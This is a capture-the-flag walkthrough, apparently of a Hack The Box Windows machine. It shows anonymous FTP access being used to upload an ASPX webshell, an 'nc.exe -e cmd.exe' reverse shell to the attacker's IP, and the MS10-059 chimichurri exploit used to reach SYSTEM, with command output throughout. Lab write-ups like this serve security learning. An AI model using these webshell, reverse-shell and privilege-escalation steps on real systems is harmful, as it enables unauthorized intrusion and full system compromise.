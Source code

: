 ### FTP (Port 21)
In the nmap scan we see that anonymous login is allowed, we enter there and find this

```bash
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
```

The file iisstart.htm is the index file which is showed when you enter the website http://10.10.10.5/

Lets try to upload a webshell in the ftp service and load it in the webapp. We will use the webshell located in `/usr/share/webshells/aspx/cmdasp.aspx`

```bash
ftp> put cmdasp.aspx 
local: cmdasp.aspx remote: cmdasp.aspx
229 Entering Extended Passive Mode (|||49195|)
125 Data connection already open; Transfer starting.
100% |***********************************************************************|  1442        5.61 MiB/s    --:-- ETA
226 Transfer complete.
1442 bytes sent in 00:00 (16.56 KiB/s)
```

Access to webshell http://10.10.10.5/cmdasp.aspx and we are in. Transfer the binary nc.exe with a impacket smb server and then with a netcat listerner we cath a proper shell

```bash
Execute in webshell:
	C:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.21 1234

-----------

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 1234              
listening on [any] 1234 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.5] 49202
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```

After some enumeration we can't find anything so using the Windows Exploit Suggester we find that chimichurri (MS10-059) could work. Move the binary though impacket smb server and execute it

```bash
C:\Windows\Temp\chimichurri.exe 10.10.14.21 1234

------------

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 1234              
listening on [any] 1234 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.5] 49209
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users>whoami
whoami
nt authority\system
```


And we are nt authority\system!